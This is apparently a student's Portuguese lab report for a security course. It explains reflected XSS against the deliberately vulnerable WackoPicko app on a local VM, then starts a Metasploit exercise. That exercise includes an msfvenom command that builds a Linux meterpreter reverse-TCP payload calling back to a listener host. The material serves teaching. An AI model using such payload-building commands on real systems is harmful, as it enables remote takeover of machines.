 **Funcionamento**:
O Cross Site Scripting (XSS) é uma vulnerabilidade em um aplicativo Web que permite que terceiros executem um script no navegador do usuário em nome do aplicativo Web. Caso a entrada precisar ser fornecida ao site sempre que for executado então este XSS é dito refletido. 

A vítima solicita uma página com uma solicitação contendo a payload e a payload é incorporada na resposta como um script.
O código do payload tem a capacidade de ler, modificar e transmitir quaisquer dados confidenciais acessíveis pelo navegador.


<image src="images/reflectedXSS.png">

**O que pode acontecer**: 
Um usuário com script entre sites pode ter sua conta invadida (roubo de cookie), seu navegador redirecionado para outro local ou possivelmente exibir conteúdo fraudulento entregue pelo site que está visitando. Os ataques de script entre sites comprometem essencialmente a relação de confiança entre um usuário e o site.

- Link para o ataque: http://192.168.56.103/WackoPicko/guestbook.php

**f. Envie no moodle, além das respostas desta tarefa, o arquivo do relatório do experimento (salve
em formato html).**

OK, salvo arquivo: [zaproxy.html](zaproxy.html)




---

## PARTE 3.Metasploit

### Questão 7. 
**(APRESENTAÇÃO) Copie e cole o screenshot da sua tela ao realizar cada passo dos
experimentos apresentados a seguir (Passo 1, Passo 2, etc).
Depois, explique o experimento:**

Passo 1.
```bash
msfconsole

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f elf > shell.elf
```
<img src="images/q_7.1.png" align="center" height=auto width=100%>
